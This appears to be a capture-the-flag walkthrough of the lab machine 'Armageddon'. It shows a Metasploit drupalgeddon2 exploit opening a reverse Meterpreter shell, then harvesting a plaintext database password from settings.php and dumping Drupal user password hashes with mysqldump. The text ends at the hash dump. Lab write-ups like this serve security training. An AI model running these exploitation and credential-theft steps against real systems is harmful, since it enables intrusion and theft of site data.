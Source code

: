 The name and the blog on the port 80 directly made me think about drupalgeddon.
We fireup metasloit.

    :::text
    msf6 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2

    msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

    [*] Started reverse TCP handler on 10.10.14.17:4444
    [*] Executing automatic check (disable AutoCheck to override)
    [+] The target is vulnerable.
    [*] Sending stage (39282 bytes) to 10.129.48.89
    [*] Meterpreter session 3 opened (10.10.14.17:4444 -> 10.129.48.89:38608) at 2021-04-25 04:52:28 -0400

    meterpreter > shell
    Process 2993 created.
    Channel 0 created.
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

# Privilege escalation

We start enumeration the box and gout the MySQL Database password in a
configuration file.

    :::text
    cat ./sites/default/settings.php
    <SNIP>
    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupaluser',
          'password' => 'CQHEy@9M*m23gBVj',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),
    );
    <SNIP>

We use `mysldump` to dump the database in a file. Inside the dump we found the
hashed password for the website users.

    :::text
    mysqldump -u drupaluser -p drupal > /tmp/dump
    Enter password: CQHEy@9M*m23gBVj

    <SNIP>
    LOCK TABLES `users` WRITE;
    /*!40000 ALTER TABLE `users` DISABLE KEYS */;
    INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}'),(3,'admin','$S$DM9qGcKQlMpP4V5r4Dv8XlqsecY6zJrBwRyrkkF5YUjUiJt46NQP','admin@armageddon.htb','','','filtered_html',1618820338,0,0,0,'Europe/London','',0,'admin@armageddon.htb',NULL);
    /*!40000 ALTER TABLE `users` ENABLE KEYS */;
    UNLOCK TABLES;
